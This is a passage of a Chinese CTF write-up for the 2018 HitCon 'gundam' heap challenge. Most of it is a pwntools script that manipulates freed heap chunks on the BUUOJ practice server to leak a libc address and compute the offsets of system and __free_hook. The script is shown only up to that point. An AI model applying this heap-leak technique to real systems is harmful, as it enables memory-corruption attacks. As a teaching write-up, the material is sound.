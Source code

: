 ## 2018-HitCon-Pwn-gundam 远程exp

综上，我们可以利用这些tirck做出一些“阴间环境”的堆题，2018-HitCon-Pwn-gundam就是其中一道（笑）

![image-20210504112333320](buu_gundam.png)

由于libc不准确，在buu上题目做出人很少。我们可以用我们上面用到的方法找与题目相匹配的libc。从而解决题目。

```python
from pwn import *
from LibcSearcher import LibcSearcher
p=remote('node3.buuoj.cn',25457)
#p=process('./gundam')
#l=ELF('./libc.so.6')
def build(name):
    p.sendlineafter("choice : ","1")
    p.sendlineafter("gundam :",name)
    p.sendlineafter("gundam :",'0')

def visit():
    p.sendlineafter("choice : ",'2')

def free(idx):
    p.sendlineafter("choice : ",'3')
    p.sendlineafter("Destory:",str(idx))

def blow_up():
    p.sendlineafter("choice : ",'4')


for i in range(9):
	build('a'*0x10)

for i in range(7):
	free(i)

free(7)

blow_up()

for i in range(7):
	build('a'*8)
#gdb.attach(p)
build('a'*8)
visit()

p.recvuntil('Gundam[7] :aaaaaaaa')
addr=p.recv()[1:6].ljust(8,'\x00')

x=int(hex(u64(addr))+'40',16)
log.info('main_arena:'+hex(x))

malloc_hook=x-0x10
log.info('malloc_hook:'+hex(malloc_hook))

libc = LibcSearcher('__malloc_hook', malloc_hook)
libcbase = malloc_hook - libc.dump('__malloc_hook')
log.info('base:'+hex(libcbase))

system=libcbase+libc.dump('system')
log.info('libcbase+system:'+hex(system))

free_hook=libcbase+libc.dump('__free_hook')
log.info('libcbase+free_hook:'+hex(libcbase+libc.dump('__free_hook')))
```